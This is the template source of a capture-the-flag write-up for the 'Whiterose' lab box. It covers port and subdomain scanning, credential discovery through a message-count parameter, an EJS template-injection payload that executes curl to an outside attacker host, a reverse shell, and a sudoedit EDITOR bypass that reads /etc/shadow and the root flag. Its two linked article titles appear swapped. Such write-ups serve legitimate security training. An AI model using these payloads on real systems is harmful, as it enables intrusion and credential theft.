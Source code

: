 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We begin by performing a port scan.")}}

{{console("nmap -T5 -p- 10.10.103.231", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-09 10:19 EST
Warning: 10.10.103.231 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.103.231
Host is up (0.086s latency).
Not shown: 65151 closed tcp ports (reset), 382 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 300.50 seconds")}}

{{text("Only two ports are open:")}}

{{list(['22 (SSH)', '80 (HTTP)'])}}

{{text("Navigating to <code class='bg-gray-300 rounded-md px-1'>http://10.10.103.231</code> redirects to <code class='bg-gray-300 rounded-md px-1'>http://cyprusbank.thm</code>, so we add an entry for this domain in the <code class='bg-gray-300 rounded-md px-1'>/etc/hosts</code> file.") }}

{{text("Now, visiting <code class='bg-gray-300 rounded-md px-1'>http://cyprusbank.thm</code> displays the following page.")}}

{{image("../../static/writeups/whiterose/images/000001.jpg")}}

{{text("Running Gobuster for directory enumeration reveals no additional directories, so we proceed with subdomain enumeration.")}}

{{console("ffuf -u 'http://cyprusbank.thm/' -H 'Host: FUZZ.cyprusbank.thm' -w /usr/share/wordlists/dirb/common.txt -fw 1", "...
Admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 107ms]
ADMIN                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 106ms]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 107ms]
www                     [Status: 200, Size: 252, Words: 19, Lines: 9, Duration: 73ms]
:: Progress: [4614/4614] :: Job [1/1] :: 531 req/sec :: Duration: [0:00:12] :: Errors: 0 ::") }}

{{text("Adding the subdomains <code class='bg-gray-300 rounded-md px-1'>www</code> and <code class='bg-gray-300 rounded-md px-1'>admin</code> to our hosts file, we find that only <code class='bg-gray-300 rounded-md px-1'>admin</code> leads to something interesting.")}}

{{image("../../static/writeups/Whiterose/images/000003.jpg")}}

{{header("Logging in as Olivia Cortez", "logging-in-as-olivia-cortez")}}

{{text("Using the credentials <code class='bg-gray-300 rounded-md px-1'>Olivia Cortez:olivi8</code> provided in the challenge, we log in successfully.")}}

{{text("The dashboard displays recent transactions and user accounts, including a user named <code class='bg-gray-300 rounded-md px-1'>Tyrell Wellick</code>, whose phone number is required.")}}

{{image("../../static/writeups/whiterose/images/000004.jpg")}}

{{text("Unable to retrieve relevant information from <code class='bg-gray-300 rounded-md px-1'>search</code> and lacking permissions for <code class='bg-gray-300 rounded-md px-1'>settings</code>, we proceed to <code class='bg-gray-300 rounded-md px-1'>messages</code>.")}}

{{header("Logging in as Gayle Bev", "logging-in-as-gayle-bev")}}

{{text("The messages page is an administrator message board.")}}

{{image("../../static/writeups/whiterose/images/000005.jpg")}}

{{text("Though the messages contain nothing useful, we notice a URL parameter <code class='bg-gray-300 rounded-md px-1'>c</code> that might allow us to do something.")}}

{{text("Posting a new message removes the previous one, so we can assume this parameter is used to control how many messages get displayed. Adjusting <code class='bg-gray-300 rounded-md px-1'>c=5</code> to <code class='bg-gray-300 rounded-md px-1'>c=100</code> displays prior messages.")}}

{{image("../../static/writeups/whiterose/images/000006.jpg")}}

{{text("This reveals new credentials <code class='bg-gray-300 rounded-md px-1'>Gayle Bev:[REDACTED]</code>, which grant us access to <code class='bg-gray-300 rounded-md px-1'>Tyrell Wellick's</code> phone number, marking the first flag.")}}

{{header("Reverse Shell", "reverse-shell")}}

{{text("Navigating further, we now have access to the <code class='bg-gray-300 rounded-md px-1'>settings</code> page.")}}

{{image("../../static/writeups/whiterose/images/000007.jpg")}}

{{text("On the settings page, we find an interface for changing passwords by username. Initial SQL injection attempts fail, but error messages in <strong>Burp</strong> indicate the use of the <strong>EJS</strong> templating engine.")}}

{{image("../../static/writeups/whiterose/images/000008.jpg")}}

{{text("We explore potential server-side template injection (<strong>SSTI</strong>) vulnerabilities in EJS, guided by an article.")}}

{{link("https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis", "https://www.vicarius.io/vsociety/favicon.svg", "CVE-2023-22809: Sudoedit Bypass - Analysis")}}

{{text("Using a crafted payload, <code class='bg-gray-300 rounded-md px-1'>name=test&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl 10.9.2.82');s</code>, we confirm SSTI exploitation.")}}

{{image("../../static/writeups/whiterose/images/000009.jpg")}}

{{text("Our next objective is to gain a reverse shell.")}}

{{text("After trying several reverse shell payloads from <code class='bg-gray-300 rounded-md px-1'>revshells.com</code>, a base64-encoded BusyBox reverse shell proves successful.")}}

{{text("Setting up a netcat listener, we execute the payload through bash to gain shell access.")}}

{{header("Privilage Escalation", "priv-esc")}}

{{image("../../static/writeups/whiterose/images/000010.jpg")}}

{{text("With shell access, we stabilize the connection for smoother navigation.")}}

{{image("../../static/writeups/whiterose/images/000011.jpg")}}

{{text("Inside <code class='bg-gray-300 rounded-md px-1'>/home/web</code>, we retrieve the <code class='bg-gray-300 rounded-md px-1'>user.txt</code> flag.")}}

{{image("../../static/writeups/whiterose/images/000012.jpg")}}

{{text("While looking around for privilage escalation vectors, we run <code class='bg-gray-300 rounded-md px-1'>sudo -l</code> and see that we are able to run <code class='bg-gray-300 rounded-md px-1'>sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm</code> as the root user.")}}

{{text("We can't find anything about <code class='bg-gray-300 rounded-md px-1'>sudoedit</code> on <code class='bg-gray-300 rounded-md px-1'>https://gtfobins.github.io/</code>, but we come across this article.")}}

{{link("https://github.com/mde/ejs/issues/720", "https://github.com/favicon.ico", "EJS, Server side template injection ejs@3.1.9")}}

{{text("By using <code class='bg-gray-300 rounded-md px-1'>export EDITOR='vi -- /etc/shadow'</code> we will make <code class='bg-gray-300 rounded-md px-1'>vi</code> open the <code class='bg-gray-300 rounded-md px-1'>/etc/shadow</code> file when <code class='bg-gray-300 rounded-md px-1'>sudoedit</code> is used.")}}

{{text("We now run <code class='bg-gray-300 rounded-md px-1'>sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm</code> and are able to read the <code class='bg-gray-300 rounded-md px-1'>/etc/shadow</code>")}}

{{console("sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm", "root:[REDACTED]
daemon:*:18885:0:99999:7:::
bin:*:18885:0:99999:7:::
sys:*:18885:0:99999:7:::
...")}}

{{text("Let's modify the <strong>export</strong> to read our flag.")}}

{{text("By using <code class='bg-gray-300 rounded-md px-1'>export EDITOR='vi -- /root/root.txt'</code> and re-running the command, we should be able to read our flag.")}}

{{console("sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm", "THM{[REDACTED]}
~                                                                               
~                                                                               
~                                                                               
...")}}

{{script()}}


